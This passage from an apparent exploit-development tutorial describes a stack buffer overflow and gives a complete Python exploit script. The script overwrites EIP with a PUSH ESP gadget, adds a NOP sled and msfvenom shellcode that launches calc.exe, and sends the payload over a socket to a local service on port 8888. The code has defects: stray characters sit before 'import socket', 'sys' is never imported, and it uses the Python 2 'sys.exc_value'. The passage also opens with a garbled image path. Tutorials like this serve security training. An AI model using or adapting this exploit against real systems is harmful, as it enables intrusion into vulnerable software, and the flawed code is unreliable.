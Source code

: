 The exploit on Exploit DB chose to use the push esp instruction rather than the jmp esp one. Either will work \(you can verify this yourself\). However, now that we have found out all of the necessary information, we can go ahead and create exploit code. We will stick with using shellcode that will run the application calc.exe. This makes testing easier because it is simple visual way of making sure the exploit is working.

```bash
uvwxyz{|}~import socket
target = "127.0.0.1"
junk = b"A" * 1052
EIP = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS = b"\x90" * 30
# msfvenom -a x86 -p windows/exec CMD=calc.exe \
# -b '\x00\x0A\x0D' -f python
buf = b""
buf += b"\xbf\xc9\x93\xa7\xbb\xd9"
buf += b"\xcb\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x31\x83\xc3\x04"
buf += b"\x31\x7b\x0f\x03\x7b\xc6\x71"
buf += b"\x52\x47\x30\xf7\x9d\xb8"
buf += b"\xc0\x98\x14\x5d\xf1\x98\x43"
buf += b"\x15\xa1\x28\x07\x7b\x4d"
buf += b"\xc2\x45\x68\xc6\xa6\x41\x9f"
buf += b"\x6f\x0c\xb4\xae\x70\x3d"
buf += b"\x84\xb1\xf2\x3c\xd9\x11\xcb"
buf += b"\x8e\x2c\x53\x0c\xf2\xdd"
buf += b"\x01\xc5\x78\x73\xb6\x62\x34"
buf += b"\x48\x3d\x38\xd8\xc8\xa2"
buf += b"\x88\xdb\xf9\x74\x83\x85\xd9"
buf += b"\x77\x40\xbe\x53\x60\x85"
buf += b"\xfb\x2a\x1b\x7d\x77\xad\xcd"
buf += b"\x4c\x78\x02\x30\x61\x8b"
buf += b"\x5a\x74\x45\x74\x29\x8c\xb6"
buf += b"\x09\x2a\x4b\xc5\xd5\xbf"
buf += b"\x48\x6d\x9d\x18\xb5\x8c\x72"
buf += b"\xfe\x3e\x82\x3f\x74\x18"
buf += b"\x86\xbe\x59\x12\xb2\x4b\x5c"
buf += b"\xf5\x33\x0f\x7b\xd1\x18"
buf += b"\xcb\xe2\x40\xc4\xba\x1b\x92"
buf += b"\xa7\x63\xbe\xd8\x45\x77"
buf += b"\xb3\x82\x03\x86\x41\xb9\x61"
buf += b"\x88\x59\xc2\xd5\xe1\x68"
buf += b"\x49\xba\x76\x75\x98\xff\x89"
buf += b"\x3f\x81\xa9\x01\xe6\x53"
buf += b"\xe8\x4f\x19\x8e\x2e\x76\x9a"
buf += b"\x3b\xce\x8d\x82\x49\xcb"
buf += b"\xca\x04\xa1\xa1\x43\xe1\xc5"
buf += b"\x16\x63\x20\xa6\xf9\xf7"
buf += b"\xa8\x07\x9c\x7f\x4a\x58"
payload = junk + EIP + NOPS + buf
try:
 s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect((target,8888))
 s.send(payload)
except Exception as e:
 print(sys.exc_value)
```

